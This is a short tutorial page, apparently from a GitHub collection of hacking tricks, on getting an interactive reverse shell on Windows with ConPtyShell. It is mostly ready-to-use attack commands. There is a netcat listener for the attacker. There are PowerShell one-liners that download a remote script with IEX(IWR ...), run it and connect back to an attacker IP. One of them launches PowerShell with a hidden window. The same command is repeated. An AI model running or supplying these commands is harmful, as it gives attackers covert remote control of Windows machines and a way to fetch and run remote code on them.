 
## Fully interactive reverse shell on Windows
The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.

**ConPtyShell uses the function [CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**


Server Side:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Client Side:

```hidden
start-process PowerShell.exe -windowstyle hidden "IEX(IWR https://raw.githubusercontent.com/khashino/tutorials/master/Tricks/Hacking/ReverceShell/PowerShell/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.137.6 3001"
```
```
IEX(IWR https://raw.githubusercontent.com/khashino/tutorials/master/Tricks/Hacking/ReverceShell/PowerShell/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```
```
IEX(IWR https://raw.githubusercontent.com/khashino/tutorials/master/Tricks/Hacking/ReverceShell/PowerShell/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

Offline version of the ps1 available at --> https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1
